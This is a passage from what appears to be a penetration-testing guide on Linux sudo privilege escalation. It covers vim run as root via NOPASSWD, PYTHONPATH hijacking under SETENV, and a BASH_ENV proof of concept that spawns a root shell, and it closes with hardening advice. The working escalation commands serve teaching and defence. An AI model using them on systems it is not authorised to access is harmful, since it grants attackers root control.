 ```
$ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```
sudo vim -c '!sh'
```

### SETENV

This directive allows the user to **set an environment variable** while executing something:

```bash
$ sudo -l
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

This example, **based on HTB machine Admirer**, was **vulnerable** to **PYTHONPATH hijacking** to load an arbitrary python library while executing the script as root:

```bash
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

### BASH_ENV preserved via sudo env_keep → root shell

If sudoers preserves `BASH_ENV` (e.g., `Defaults env_keep+="ENV BASH_ENV"`), you can leverage Bash’s non-interactive startup behavior to run arbitrary code as root when invoking an allowed command.

- Why it works: For non-interactive shells, Bash evaluates `$BASH_ENV` and sources that file before running the target script. Many sudo rules allow running a script or a shell wrapper. If `BASH_ENV` is preserved by sudo, your file is sourced with root privileges.

- Requirements:
  - A sudo rule you can run (any target that invokes `/bin/bash` non-interactively, or any bash script).
  - `BASH_ENV` present in `env_keep` (check with `sudo -l`).

- PoC:

```bash
cat > /dev/shm/shell.sh <<'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x /dev/shm/shell.sh
BASH_ENV=/dev/shm/shell.sh sudo /usr/bin/systeminfo   # or any permitted script/binary that triggers bash
# You should now have a root shell
```

- Hardening:
  - Remove `BASH_ENV` (and `ENV`) from `env_keep`, prefer `env_reset`.
  - Avoid shell wrappers for sudo-allowed commands; use minimal binaries.
  - Consider sudo I/O logging and alerting when preserved env vars are used.

